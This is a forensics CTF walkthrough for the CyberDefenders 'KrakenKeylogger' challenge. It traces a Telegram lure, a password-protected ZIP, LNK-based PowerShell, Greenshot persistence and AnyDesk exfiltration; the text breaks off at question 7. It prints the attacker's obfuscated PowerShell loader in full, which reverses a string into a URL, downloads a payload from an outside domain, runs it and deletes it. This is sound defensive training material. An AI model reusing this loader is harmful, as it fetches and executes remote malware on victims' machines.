 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/">KrakenKeylogger</a>

**Platform:** CyberDefenders

**Scenario:** An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.

The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `challenge directory`

**Tools:** `FTK Imager` `Autopsy` `Registry Explorer` `MFTECmd.exe` `Timeline Explorer`

> [FTK Imager](https://www.exterro.com/digital-forensics-software/ftk-imager) is a free data preview and imaging tool used to acquire electronic evidence in a forensically sound manner by creating copies of computer data without making changes to the original evidence.

**Note:** In this walkthrough, we will use the FlareVM to analyze the provided files. If you have not set it up yet, I highly recommend following this [malware analysis lab](https://github.com/mmhgwyjs/malware-analysis-lab/blob/main/README.md) guide for assistance with your installation.

## **Preparations**


## **Questions and Answers**

***1. What is the the web messaging app the employee used to talk to the attacker?***

\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications

![image](https://github.com/user-attachments/assets/64055a1d-a3e2-470f-b86b-38cb65425219)

telegram

![image](https://github.com/user-attachments/assets/85866de4-c737-4544-8035-b49f340e375b)


***2. What is the password for the protected ZIP file sent by the attacker to the employee?***

@1122d

![image](https://github.com/user-attachments/assets/3edfae11-f421-45b7-aa33-9018fba648fc)

***3. What domain did the attacker use to download the second stage of the malware?***

masherofmasters.cyou

![image](https://github.com/user-attachments/assets/63bd4db8-6ac7-4f51-b051-c843fc46905d)

lecmd.exe -f templet.lnk

![image](https://github.com/user-attachments/assets/e8d8a357-e98e-4382-a054-f15be12b63e1)

```
Relative Path: ..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
Icon Location: C:\Windows\System32\imageres.dll
```

certutil -hashfile templet.lnk

![image](https://github.com/user-attachments/assets/d54c5405-fb24-4238-a75b-e59f122b2bdc)

8b49368462651afa265273151a1e7d4ea19e6347

![image](https://github.com/user-attachments/assets/f248f584-9520-4fd4-bc8d-371d1f3e4938)

masherofmasters.cyou

***4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?***

jlhgfjhdflghjhuhuh

![image](https://github.com/user-attachments/assets/04777a51-a34c-4585-96d2-f58e56faafc7)

Users/OMEN/AppData/Roaming/Greenshot/Greenshot.ini

https://lolapps-project.github.io/lolapps/Desktop/greenshot/

***5. What is the complete path of the malicious file that the attacker used to achieve persistence?***

C:\Users\OMEN\AppData\Local\Temp\templet.lnk

***6. What is the name of the application the attacker utilized for data exfiltration?***

anydesk

C:\Windows\System32\sru\SRUDB.dat

![image](https://github.com/user-attachments/assets/ac7ca00d-a42e-4eac-af1d-7d5fa80dc3f8)

C:\Users\flrvm2\Desktop\Tools\Forensic\SrumECmd.lnk -f C:\Users\flrvm2\Documents\CD\119-KrakenKeyLogger\SRUDB.dat --csv C:\Users\flrvm2\Documents\CD\119-KrakenKeyLogger

![image](https://github.com/user-attachments/assets/d114f3cf-5b1b-46ad-999b-cde203640422)

![image](https://github.com/user-attachments/assets/c6f0edb3-98c8-4c28-972c-72b587e6b8cb)

![image](https://github.com/user-attachments/assets/5e92c965-4342-4137-b008-f2cea32f2468)

***7. What is the IP address of the attacker?***

